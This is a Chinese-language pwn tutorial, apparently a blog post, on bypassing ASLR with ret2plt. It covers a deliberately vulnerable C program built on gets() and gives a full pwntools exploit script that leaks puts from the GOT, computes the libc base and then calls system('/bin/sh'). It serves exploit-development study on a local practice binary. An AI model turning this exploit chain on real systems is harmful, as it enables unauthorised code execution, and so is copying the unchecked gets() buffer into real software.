 ```yaml
---
title: 'ret2plt 绕过 ASLR'
date: '2023-08-23'
lastmod: '2023-08-23'
tags: ['PWN', 'Stack']
draft: false
summary: '绕过 ASLR'
authors: ['default']
---
```


## 0x01 概述

这次没有可以直接利用的信息了，你必须使用前面讲到的 ret2plt 技术。在进一步了解之前，请先自己尝试一下。

LINK

```c:source.c
#include <stdio.h>

void vuln() {
  puts("Come get me");

  char buffer[20];
  gets(buffer);
}

int main() {
  vuln();

  return 0;
}
```

## 0x02 分析

我们需要以某种手段泄漏 ASLR 基地址。在这题中，唯一可行的方法是 ret2plt。`gets()` 可以读取任意大小的数据，所以不用担心栈空间不足的问题。我们可以充分利用 `gets()` 构造 ret2plt 的 exploit 链。通过返回到 PLT 表，可以泄漏需要的地址信息。

因此，在栈空间充足的情况下，使用 ret2plt 是最合适的手段。

## 0x03 利用

基本信息：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()
```

现在我们要构造一个可以泄漏 `puts` 真实地址的 payload。根据之前讲到的，调用函数的 PLT 条目等同于调用函数本身。传入 `puts@got` 作为参数，会打印出 `puts` 在 `libc` 中的实际地址，因为 C 语言传递字符串参数传递的是指针。我们知道 `puts@got` 就是一个已知地址，可以打印。这样就可以通过 `puts@plt` 间接获取 `puts@got` 中的内容。

```python
p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```

调用 `main` 的目的是让程序可以重新运行。如果我们直接返回到一个随机的地址，会让程序崩溃。再次调用 `main` 本质上是重启了程序，这样可以使程序在泄漏 `libc` 的基地址后继续运行。然后我们就可以进行 ret2libc 攻击。

```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```

这里需要注意 `puts` 会一直输出，直到遇到空字节，所以它不只是泄漏了 GOT 表中的地址。但我们只关心第一个，也就是 GOT 表里面的前 4 个字节。使用 `u32` 转换为地址。之后，忽略调用 `main` 时产生的其它内容。我们只取关键信息，过滤无用数据。

从这里开始，我们只需要计算出 `libc` 的基地址并执行基本的 ret2libc：

```python
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
libc = elf.libc

p = process()

p.recvline()  # 只接收第一个输出

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],  # 虽然这里不需要退出，但这样做会更好
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## 0x04 64-bit

你知道该怎么做 :) 在 64-bit 上尝试同样的操作。如果需要，你可以使用 pwntools 的 ROP 功能；或者，为了确保你理解调用约定，请大胆地同时执行这两个操作 :P

LINK

